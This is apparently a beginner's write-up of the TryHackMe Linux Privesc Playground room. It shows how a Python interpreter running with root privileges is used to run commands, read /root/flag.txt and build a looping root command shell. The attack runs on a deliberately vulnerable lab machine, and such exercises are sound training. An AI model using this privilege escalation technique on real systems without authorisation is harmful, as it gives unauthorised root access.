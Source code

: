# Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
## This is my first Write-up but a simple one to preform.


### 1.lets get in the machine and open python 

SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python is installed and has root premonition so we could exploit it
 
$ python
```
>>>
```

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
```python
>>> import os
```
now, lets see if we are root. (euid = 0:root)
```python
>>> geteuid()
```
> 0

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

```python
os.system("whoami")
```

>root
0


note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

### 2. Get The Flag!
to get the flag we will do the following

```python
os.system("cat /root/flag.txt")
```
> THM{3asy_f14g_1m40}


 

___
# bonus:

do you want to make your life easyer? (that's what python ment for)
 

```python
def A(i):
    os.system(i)
```

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

```
A('whoami')
```
>root
0

# Even better:

```
while True:
    i = input('CMD: ')
    os.system(i)
press return key (enter)
```
> CMD:
```
CMD: whoami
```
>root
0


now we got ourself a loop and created our-self an easy root shell!

# Hye! if you done the bonus why not get in to a python course?